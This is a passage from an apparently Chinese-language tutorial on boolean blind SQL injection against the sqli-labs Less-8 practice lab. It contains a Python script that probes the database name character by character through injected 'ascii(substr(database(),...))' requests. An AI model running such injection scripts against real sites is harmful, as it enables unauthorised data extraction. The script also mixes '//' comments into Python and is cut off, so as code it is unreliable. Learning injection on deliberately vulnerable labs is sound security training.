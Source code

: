 ![19](/img/2018-07-20/19.png)
返回正确，然后一直判断下去，遍历所有字母，一个个去试肯定比较麻烦，所以首选写脚本，其次也不能一个个遍历，可以用二分法，可以节省很多时间，python自动跑数据库名脚本如下
```python
import requests
txt1 = "http://localhost/sqli-labs/Less-8/?id=1' and ascii(substr(database(),"
txt2 = ",1)) >= '"
txt3 = ",1)) = '"
payload1 = 1 
payload2 = 97
txt4 = 'You are in..........'
num11 = 97
num12 = 65
num13 = 48
code = ''
num1 = 0
num2 = 0
num3 = 0
for i in range(1,9)://长度
	url = txt1+str(i)+txt2+str(num11)
	req = requests.get(url = url)
	reqtext = req.text[570:590]
	//reqtext是获取页面上的内容是不是等于txt4
	if(reqtext == txt4):
		num1 = 1

	url = txt1+str(i)+txt2+str(num12)
	req = requests.get(url = url)
	reqtext = req.text[570:590]
	if(reqtext == txt4):
		num2 = 1

	url = txt1+str(i)+txt2+str(num13)
	req = requests.get(url = url)
	reqtext = req.text[570:590]
	if(reqtext == txt4):
		num3 = 1
//判断范围，数字48-57，大写65-90，小写97-122
//字母切三次，判断三次，部分四次，abc def ghi jklm nop qrs tuv wxyz
//数字切一次，判断五次，01234 56789
```